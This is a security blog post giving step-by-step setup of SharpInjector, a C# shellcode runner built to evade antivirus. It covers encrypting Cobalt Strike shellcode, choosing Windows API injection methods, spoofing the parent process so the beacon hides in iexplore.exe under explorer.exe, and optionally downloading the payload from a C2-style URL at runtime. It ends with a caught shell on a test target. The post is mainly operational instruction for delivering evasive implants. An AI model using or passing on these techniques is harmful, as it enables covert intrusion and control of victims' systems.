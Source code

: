 ```yaml
---
layout: post
title: SharpInjector
subtitle: Experimenting with a shellcode runner
thumbnail-img: /assets/projects/sharpinjector/thumb.png
share-img: /assets/projects/sharpinjector/thumb.png
tags: [c#, shellcode runner, sharpinjector]
---
```


Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had success with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00mFist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [scatterbrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

The code repository can be found [here](https://github.com/tw1sm/SharpInjector).

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}

Clone the project and transfer your `.bin` file over the the system you're generating the payload on.
~~~
git clone https://github.com/tw1sm/SharpInjector.git
~~~

Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
```csharp
public static string Enc(string data)
        {
            string enc = "";
            string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
```

Build the `ScEncryptor` project.

Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument:
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will automatically be placed into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
    class EncryptedShellcode
    {
        public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
    class EncryptedShellcode
    {
        public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project.
```csharp
// Decryptor func
public static string Dec(string ciphertext)
{
    string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
```

Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#.
```csharp
const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
```

On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that a child will be spawned from. `explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in.
```csharp
string ParentName = "explorer"; // CHANGE THIS: name of parent process
string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
```

Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
```csharp
string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
```

Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}